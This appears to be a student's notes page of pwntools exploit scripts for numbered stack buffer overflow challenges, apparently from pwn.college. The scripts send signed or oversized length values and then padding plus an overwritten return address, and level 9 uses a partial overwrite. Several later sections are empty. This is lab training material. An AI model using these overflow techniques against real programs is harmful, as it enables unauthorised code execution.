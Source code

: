 ## 4
### .0
```py
from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('-1')

pl=b'b'*120+p64(0x40229d)

io.send(pl)
print(io.recvall().decode())

```
### .1
准确的buf相对rbp的偏移要看汇编
```s
lea     rax, [rbp+var_30]
mov     [rbp+buf], rax
# ...
mov     rax, [rbp+buf]
mov     rsi, rax
```
```py

from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
# elfpath=os.path.join('/home/hacker/challenge',os.listdir('/challenge')[0])
io=process(elfpath)
io.sendline('-1')

pl=b'b'*(0x30+8)+p64(0x4020d3)

io.send(pl)
print(io.recvall().decode())

```
## 5
### .0
```py

from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
# elfpath=os.path.join('/home/hacker/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('65536')
io.sendline('65536')

pl=b'b'*(152)+p64(0x401c4b)

io.send(pl)
print(io.recvall().decode())

```
### .1
```py

from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
# elfpath=os.path.join('/home/hacker/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('65536')
io.sendline('65536')

pl=b'b'*(0x80+8)+p64(0x4020D4)

io.send(pl)
print(io.recvall().decode())

```
## 9
???怎么直接9了
### .0
多试几次吧
```py

from pwn import *
context(os='linux',arch='amd64')
elfpath=os.path.join('/challenge',os.listdir('/challenge')[0])
# elfpath=os.path.join('/home/hacker/challenge',os.listdir('/challenge')[0])
io=process(elfpath)

io.sendline('122')

pl=b'b'*(88)+p32(116)+p16(0x264f)

io.send(pl)
print(io.recvall().decode())

```
### .1
```py

```
## 10
### .0
```py

```
### .1
```py

```
## 11
### .0
```py

```
### .1
```py

```
## 12
### .0
```py

```
### .1
```py

```
## 13
### .0
```py

```
### .1
```py

```
## 14
### .0
```py

```
### .1
```py

```
## 15
### .0
```py

```
### .1
```py

```
